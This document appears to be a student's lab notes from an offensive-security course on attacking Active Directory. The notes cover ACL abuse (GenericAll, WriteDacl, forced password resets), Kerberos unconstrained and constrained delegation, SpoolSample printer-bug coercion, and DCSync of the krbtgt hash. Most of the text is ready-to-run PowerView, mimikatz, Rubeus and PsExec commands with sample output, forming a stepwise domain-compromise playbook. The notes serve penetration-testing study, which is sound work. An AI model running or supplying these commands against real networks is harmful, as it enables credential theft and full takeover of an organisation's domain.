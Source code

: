 ## AD Object Security Permissions

In active Drictory, access to an object is controlled through a Discretionary Access Control List(DACL), which consists of a series of Access Control Entries(ACE).  When multiple ACE's are present, their order is important. If a deny ACE comes before an allow ACE, the dent takes precedence. 

The ACE is stored arccording to the Secutiry Descriptor Definition Language(SDDL).
- ace_type:designates whether the ACE allows or denies permissions
- ace_flags:related to inheritance on child objects
- ace_rights
- object_guid
- inherit_object_guid
- account_sid:SID of the object

```
(A;;RPWPCCDCLCSWRCWDWOGA;;;S-1-1-0)
```
We can reference the [microsoft doc](https://docs.microsoft.com/en-us/windows/win32/secauthz/generic-access-rights) to read/understand the access rights

we cab enumernate the AD OBJ with Get-ObjectAcl, the foreach resolve the SID through ConvertFrom-SID

```
PS C:\tools> Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

#### Generuic All abuse

import powerview
```
PS C:\tools> . .\powerview.ps1
```

The GenericAll access right, which gives full control of the targeted object. 

We can get enumerate all domain users that our current account has GenericAll rights to it, or we can replace **Get-DomainGroup** to find a group 

```
PS C:\tools> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID
$_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

if we found an account that we have access to it, we can update the password, we can do the samething with **ForceChangePassword** and **AllExtendedRights** access rights to change the password of a user account in a similar way without supplying the old password.
```
PS C:\tools> net user testservice1 pass /domain
```

if our user has **WriteDacl** permission to a AD object, we can use Add-DomainObjectAcl PowerView method to apply additional access rights
such as GenericAll, GenericWrite, or even DCSync if the targeted object is the domain object

```
PS C:\tools> Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```
#### Kerberos Unconstrained Delegation

When the user requests access for a service ticket against a service that uses unconstrained
delegation, the request also includes a forwardable TGT. Since the frontend service receives a forwardable TGT, it can perform authentication on behalf of
the user to any service. this means that if we succeed in compromising the web server service and a user authenticates to it, we can steal the user’s TGT and authenticate to any service.

Identify Unconstrained computer
```
PS C:\tools> Get-DomainComputer -Unconstrained
```
dump the tickets
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

identify the admin TGT, and ptt, and exit sapwn a cmd shell with the ticket
```
mimikatz # kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
mimikatz # exit

C:\Tools> C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd
```
#### force \pipe\spoolss authenticatin

we can to force a Domain Controller to connect back to a system configured with unconstrained
delegation, using the spoolSample tool

- 1.verify if the name pipe exists
```
PS C:\Tools> dir \\cdc01\pipe\spoolss
```

- 2.on the Unconstrained server setup monitor to catch the incoming tgt
```
C:\Tools> Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```

- 3.trigger the print spooler change notification with SpoolSample.exe
```
C:\Tools> SpoolSample.exe CDC01 APPSRV01
```

- 4.inject ticket to memeory
```
C:\Tools> Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
```
- 5.dcsync, dump hashs
```
mimikatz # lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

#### Constrained Delegation
Constrained delegation is configured on the computer or user object. It is set through the msdsallowedtodelegateto
property by specifying the SPNs the current object is allowed constrained delegation against.

We can use powerview again to query **TrustedToAuth** flag, which will enumerate constrained delegation:
```
PS C:\tools> Get-DomainUser -TrustedToAuth

samaccountname : IISSvc

msds-allowedtodelegateto : {MSSQLSvc/CDC01.prod.corp1.com:SQLEXPRESS,
MSSQLSvc/cdc01.prod.corp1.com:1433}

useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD,
TRUSTED_TO_AUTH_FOR_DELEGATION
```
msds-allowedtodelegateto property contains the SPN of the MS SQL server
on CDC01. This tells us that constrained delegation is only allowed to that SQL server

TRUSTED_TO_AUTH_FOR_DELEGATION indicate whether constrained delegation can be used if the
authentication between the user and the service uses a different authentication mechanism like
NTLM

in this case,IISSvc account can request a service ticket for the services listed in the
msds-allowedtodelegateto field as any user in the domain.

Note, we do not need to execute in the context of the IISSvc account in order to exploit the
account. We only need the password hash.

- 1.Create hash from iiSSvc account 
```
PS C:\Tools> .\Rubeus.exe hash /password:lab
...
[*] Action: Calculate Password Hash(es)
[*] Input password : lab
[*] rc4_hmac : 2892D26CDF84D7A70E2EB3B9F05C425E
```

- 2.generate a TGT for IISSvc
```
PS C:\Tools> .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```

- 3.pass the ticket with base 64 encoded ticket,supply the SPN of the service (/msdsspn),
```
PS C:\Tools> .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
```

#### Resource-Based Constrained Delegation

RBCD works by essentially turning the delegation settings around. The msDSAllowedToActOnBehalfOfOtherIdentity
property  controls delegation from the backend service.
To configure RBCD, the SID of the frontend service is written to the new property of the backend
service. One important requirement is that the frontend service must have an SPN set in the domain. This means that
any attack against RBCD needs to happen from a computer account or a service account with a
SPN.

page 632
